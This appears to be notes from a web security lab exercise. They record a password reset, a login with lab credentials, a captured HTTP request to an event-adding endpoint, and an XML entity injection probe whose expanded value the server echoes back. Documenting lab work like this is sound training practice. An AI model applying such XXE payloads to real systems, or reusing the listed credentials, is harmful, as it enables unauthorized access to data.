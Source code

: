 Password changed successfully

--> OK

Authentication with :

a.corrales
Academy_student!

--> OK

POST /addEvent.php HTTP/1.1
Host: 94.237.62.195:53851
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://94.237.62.195:53851
Referer: http://94.237.62.195:53851/event.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=52
Connection: close


            <root>
            <name>a</name>
            <details>b</details>
            <date>2010-10-10</date>
            </root>
            

HTTP/1.1 200 OK
Date: Sun, 07 Jan 2024 22:12:16 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 27
Connection: close
Content-Type: text/html; charset=UTF-8

Event 'a' has been created.



<!DOCTYPE name [
  <!ENTITY company "Inlane Freight">
]>
            <root>
            <name>&company;</name>
            <details>b</details>
            <date>2010-10-10</date>
            </root>

Event 'Inlane Freight' has been created.
